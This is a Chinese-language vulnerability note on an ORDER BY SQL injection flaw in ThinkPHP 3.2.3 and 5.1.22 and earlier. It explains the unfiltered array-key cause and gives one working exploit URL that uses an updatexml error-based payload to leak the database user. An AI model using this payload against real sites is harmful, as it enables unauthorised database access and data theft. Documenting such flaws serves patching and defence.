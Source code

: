 ```yaml
---
title: "Thinkphp 3.x order by 注入漏洞"
id: zhfly3143
---
```


# Thinkphp 3.x order by 注入漏洞

## 一、漏洞简介

ThinkPHP在处理order by排序时，当排序参数可控且为关联数组(key-value)时，由于框架未对数组中key值作安全过滤处理，攻击者可利用key构造SQL语句进行注入，该漏洞影响ThinkPHP 3.2.3、5.1.22及以下版本。

## 二、漏洞影响

ThinkPHP 3.2.3、5.1.22及以下版本。

## 三、复现过程

ThinkPHP3.2.3漏洞代码（/Library/Think/Db/Driver.class.php）：

![image](../img/0f963c85c244bf968992a6f28f4a9665.png)

ThinkPHP 5.1.22漏洞代码（framework/library/think/db/Query.php）：

![image](../img/22e42b8ada46f7c7e7fd73872d7c2e6f.png)

从上面漏洞代码可以看出，当$field参数为关联数组（key-value）时，key值拼接到返回值中，SQL语句最终绕过了框架安全过滤得以执行。

### ThinkPHP 3.2.3

访问如下URL即可进行漏洞利用：

```
http://www.0-sec.org/ThinkPHP/?order[updatexml(1,concat(0x3a,user()),1)]=1 
```

![image](../img/d65d22e2a50b2b94213ea4e8160d769b.png)

## 参考链接

> https://mp.weixin.qq.com/s?__biz=MzIwNTcxNTczMQ==&mid=2247483907&idx=1&sn=3c1f9874878c92d10cff30c1c263fa8a&scene=21#wechat_redirect